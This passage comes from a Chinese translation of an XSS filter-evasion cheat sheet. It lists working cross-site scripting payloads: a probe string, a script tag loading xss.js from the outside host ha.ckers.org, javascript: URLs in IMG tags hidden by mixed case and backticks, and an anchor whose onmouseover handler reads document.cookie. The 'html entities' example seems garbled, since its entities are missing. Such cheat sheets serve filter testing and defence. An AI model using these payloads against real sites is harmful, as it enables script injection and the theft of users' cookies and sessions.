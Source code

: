 ### xss 探测器 2

如果你没有充足的输入空间去检测页面是否存在 xss 漏洞。下面这段代码是一个好的简洁的 xss 注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses <XSS 这样的输入点从而判断是否存在 xss 漏洞。

```
'';!--"<XSS>=&{()} 
```

### 无过滤绕过

这是一个常规的 xss 注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT> 
```

### 通过 javascript 指令实现的图片 xss

图片 xss 依靠 javascript 指令实现。（IE7.0 不支持 javascript 指令在图片上下文中，但是可以在其他上下文触发。下面的例子仅仅展示了一种其他标签依旧通用的原理。）

```
<IMG SRC="javascript:alert('XSS');"> 
```

### 无引号无分号

```
<IMG SRC=javascript:alert('XSS')> 
```

### 不区分大小写的 xss 攻击向量

```
<IMG SRC=JaVaScRiPt:alert('XSS')> 
```

### html 实体

The semicolons are required for this to work:

```
<IMG SRC=javascript:alert("XSS")> 
```

### 重音符混淆

如果你的 javascript 代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹 javascript 代码。它也经常会非常有用因为 xss 过滤代码未考虑到这个字符。

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`> 
```

### 畸形的 A 标签

跳过 href 属性，而直接获取 xss 实质攻击代码...提出被 David Cross ~ 已验证在 chrome 浏览器

```
<a onmouseover="alert(document.cookie)">xxs link</a> 
```
